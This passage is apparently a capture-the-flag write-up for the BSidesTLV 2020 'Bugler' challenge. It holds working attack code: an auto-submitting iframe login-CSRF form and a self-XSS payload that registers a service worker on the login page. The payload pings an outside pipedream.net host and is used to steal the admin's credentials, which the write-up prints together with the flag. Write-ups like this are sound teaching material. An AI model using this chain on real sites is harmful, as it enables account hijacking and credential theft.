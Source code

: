 Then, we upload a page with an iframe which logs the admin into our profile:

```html
<iframe id="my_iframe"></iframe>

<form action="https://bugler.ctf.bsidestlv.com/login?next=/profile#edit" method="post" target="my_iframe" id="my_form">
   <input type="hidden" name="username" value="user1" />
   <input type="hidden" name="password" value="1234567890" />
   <input type="submit" />
</form>

<script>
document.getElementById("my_form").submit(); 
</script>
```

We edit our profile and set the self-XSS in the *City* field to register our service worker:

```javascript
<script>
navigator.serviceWorker.register('/upload/9e7259c7513a4ec8/12461154d31845ba33a08127c803d7e1.JS', {
      scope: '/login'
   })
   .then((reg) => {
      console.log("registered");
      fetch('https://endlbdl92l0m4.x.pipedream.net/?register')
   });

</script>
```

We trick the admin into visiting the page with the IFRAME, by editing our website link and pointing to this page, then reporting this page for phishing.

This causes the following chain of events:

1. The admin visits the page we reported as a phishing page
2. The page contains an iframe and Javascript code which logs the admin into our profile, and sends him to our profile page
3. The profile page contains a self-XSS which registers a service worker, becoming a persistent XSS even after logging out
4. The admin later tries to login as himself
5. The service worker which is registered to the login page kicks in, and steals the username and password, sending it to our server
6. We obtained the admin's credentials: `/?username=admin&pass=BSidesTLV2020{S3rv1ce_W0rk3rs@Y0urS3rvic3}`

The flag: `BSidesTLV2020{S3rv1ce_W0rk3rs@Y0urS3rvic3}`